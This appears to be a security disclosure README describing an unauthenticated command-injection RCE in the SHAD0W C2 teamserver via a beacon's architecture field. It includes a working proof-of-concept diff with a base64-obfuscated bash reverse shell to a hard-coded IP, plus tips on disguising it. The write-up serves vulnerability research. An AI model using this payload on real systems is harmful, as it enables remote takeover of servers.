

# SHAD0W Unauthenticated RCE

SHAD0W is vulnerable to an unauthenticated RCE against the C2 Teamserver. A malicious beacon can specify an arbitrary architecture value when registering with the Teamserver. When the C2 operator interacts with the beacon in certain ways, the architecture value is injected into a system compilation command.  



## Reproduction

The `register_beacon()` function in [lib/path_handler.py](https://github.com/bats3c/shad0w/blob/master/lib/path_handler.py#L86) accepts URL-encoded parameters from beacons when they register with the C2 Teamserver. Unlike the `stage_beacon()` function, these parameters are not validated. Arbitrary architecture and operating system values can be provided by a malicious beacon.

Several modules in SHAD0W also use the arbitrary beacon-provided values as parameters when compiling shellcode. For instance, the `migrate` module which implements process migration, [passes the architecture value](https://github.com/bats3c/shad0w/blob/d35b9dc74319800bbab1678aba69258532ec0200/lib/commands/migrate.py#L62) to `buildtools.make_in_clone()`. The value is [eventually interpolated](https://github.com/bats3c/shad0w/blob/master/lib/buildtools.py#L152) into an `os.system()` function call for the `make` command.   

The beacon-provided values are displayed to the C2 operator when the beacon first connects to the C2 server, so some level of obfuscation is required here to disguise the payload and spark the C2 operator's curiosity to interact with the beacon. 

The easiest way to demonstrate the exploit is with a patch to the in-built SHAD0W beacon. The payload below starts a bash reverse shell back to the targeted beacon server. In the animated POC above, some misleading strings have been added to disguise the injection.

```

diff --git a/beacon/injectable/beacon.c b/beacon/injectable/beacon.c
index c7752c6..4e6051f 100644
--- a/beacon/injectable/beacon.c
+++ b/beacon/injectable/beacon.c
@@ -47,14 +47,16 @@ void main()
         strcpy( CompInfo.OS, "NULL" );
     }
 
+    char payload[] = ";echo YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xOTIuMTY4LjE2Ny4xMjgvODg4OCAwPiYxICYK|base64 -d|bash;";
+
     // format the data correctly so it can be used when we call back to the c2
 
     #if !defined(IMPERSONATE_SESSION)
-        sprintf(UriBuffer, "username=%s&domain=%s&machine=%s&arch=%s&os=%s&secure=%s", lpcUserName, lpcDomainName, lpcComputerName, CompInfo.Arch, CompInfo.OS, CompInfo.Secure);
+        sprintf(UriBuffer, "username=%s&domain=%s&machine=%s&arch=%s&os=%s&secure=%s", lpcUserName, lpcDomainName, lpcComputerName, payload, CompInfo.OS, CompInfo.Secure);
     #endif
 
     #if defined(IMPERSONATE_SESSION)
-        sprintf(UriBuffer, "username=%s&domain=%s&machine=%s&arch=%s&os=%s&secure=%s&impersonate=%s", lpcUserName, lpcDomainName, lpcComputerName, CompInfo.Arch, CompInfo.OS, CompInfo.Secure, IMPERSONATE_SESSION);
+        sprintf(UriBuffer, "username=%s&domain=%s&machine=%s&arch=%s&os=%s&secure=%s&impersonate=%s", lpcUserName, lpcDomainName, lpcComputerName, payload, CompInfo.OS, CompInfo.Secure, IMPERSONATE_SESSION);
     #endif
 
     // register back with the c2
```

Compile the beacon:

`python3 shad0w.py beacon -p x64/windows/static -H 192.168.167.131 -f psh -o update.ps1`

Run the beacon on a Windows host and setup the reverse shell.

When the C2 operator runs a module such as `migrate` against the beacon, the command injection will trigger, "hacking back" the C2 framework.